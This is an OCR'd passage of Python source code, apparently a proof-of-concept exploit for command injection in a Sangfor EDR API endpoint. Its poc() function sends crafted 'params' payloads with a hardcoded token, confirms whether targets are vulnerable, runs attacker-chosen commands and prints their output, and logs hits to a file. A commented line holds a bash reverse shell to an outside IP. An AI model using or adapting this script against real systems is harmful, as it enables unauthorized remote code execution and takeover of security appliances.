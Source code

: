     data = json.loads(res.content)

    #print(data\['results'\])

    for i in data\['results'\]:

        result.append(i)

    return result

def log(data):

    with open('successLog.txt','a+') as f:

        f.write(data+'\\n')

def poc(u,\*\*attack):

    print("\[\*\] Checking %s"%(u))

    uri = "/api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9"

    url = u+uri

    #data={"params":"w=123\\"'1234123'\\"|bash -i>& /dev/tcp/1.1.1.1/8888 0>&1"}

    if not attack:

        data={"params":"w=123\\"'1234123'\\"|echo aaabbbccc00aa"}

    else:

        if attack\['flag'\]:

            data={"params":"w=123\\"'1234123'\\"|{}".format(attack\['cmd'\])}

    try:

        res = requests.post(url,data=json.dumps(data),verify=False,timeout=timeout)

        data = json.loads(res.content)

        if (data\["code"\] == 0) or (data\["code"\] == 1116):

            print("\[\*\] %s is vulnerabile !"%(u))

            if attack and (data\["code"\] == 0):

                for d in data\["data"\]:

                    print(d)

            else:

                print("\[-\] May command error!")

        else:

            print("\[\*\] %s may not vulnerabile ! ,code is:%s"%(u,str(data\["code"\])))

    except Exception as e:

        print("\[-\] Error %s , %s"%(u,e))

if len(sys.argv)==2:
